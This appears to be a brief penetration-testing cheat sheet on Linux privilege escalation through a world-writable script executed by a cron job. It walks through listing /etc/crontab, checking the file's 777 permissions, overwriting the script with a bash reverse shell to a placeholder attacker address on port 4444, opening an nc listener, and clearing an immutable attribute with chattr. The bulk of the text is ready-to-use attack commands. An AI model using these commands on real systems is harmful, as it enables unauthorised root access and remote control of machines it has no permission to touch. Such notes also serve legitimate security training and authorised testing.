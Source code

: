#### **If a cronjob runs a file in a non-writable directory, but the file itself is writable (777 permissions), you can still modify it using `echo`.**

**List Cron jobs**
```
cat /etc/crontab
```
- `/opt/check-ssh-running.sh:` cron job running

**Check the permission**
```
ls -al /opt/check-ssh-running.sh
```
- `777:` full permission on the file

**Write to the File directly (Injecting a Reverse Shell)**
```
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/YOUR-IP/4444 0>&1' > /opt/check-ssh-running.sh

# safer with `exec`
echo -e '#!/bin/bash\nexec bash -i >& /dev/tcp/YOUR-IP/4444 0>&1' > /opt/check-ssh-running.sh
```

**Set up a listener**
```
nc -nvlp 4444
```

### Optional: Check1 - File Attributes (Immutable)
```
lsattr /opt/check-ssh-running.sh
```

**If you see something like this, the file is immutable.**
```
----i--------e-- /opt/check-ssh-running.sh
```

**Remove the immutable bit (Need root for this)**
```
sudo chattr -i /opt/check-ssh-running.sh
```

#### **Check2**
Also check the contents of the file and look for any vulnerable commands, e.g. `grep`, `awk` etc.
